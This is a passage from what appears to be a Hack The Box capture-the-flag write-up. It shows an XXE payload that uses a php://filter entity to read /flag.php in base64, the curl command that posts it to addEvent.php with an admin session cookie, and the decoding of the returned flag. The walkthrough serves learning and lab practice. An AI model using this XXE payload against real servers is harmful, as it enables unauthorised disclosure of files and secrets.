 **🎯 XML Input Identified:** Application accepts XML data for event creation

---

### Phase 6: XXE File Disclosure

#### Step 13: Craft XXE Payload for Flag Extraction

**XXE Payload Construction:**
```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/flag.php"> ]>
<root>
    <name>&xxe;</name>
    <details>XXE Test</details>
    <date>2021-09-22</date>
</root>
```

**Payload Breakdown:**
- `<!DOCTYPE replace [...]>` - External entity definition
- `php://filter/convert.base64-encode/resource=/flag.php` - PHP filter to avoid XML parsing issues
- `&xxe;` - Entity reference in name field (displayed in response)

#### Step 14: Execute XXE Attack

**Manual Exploitation:**
```bash
# Send XXE payload via curl
curl -X POST "http://target.com/addEvent.php" \
    -H "Content-Type: application/xml" \
    -H "Cookie: PHPSESSID=[ADMIN_SESSION]" \
    -d '<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/flag.php"> ]>
<root>
    <name>&xxe;</name>
    <details>XXE Test</details>
    <date>2021-09-22</date>
</root>'
```

**Response Contains Base64:**
```
PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K
```

#### Step 15: Decode Flag

**Base64 Decoding:**
```bash
echo 'PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K' | base64 -d

# Output: <?php $flag = "HTB{m4573r_w3b_4774ck3r}"; ?>
```

**🏆 Final Flag:** `HTB{m4573r_w3b_4774ck3r}`

---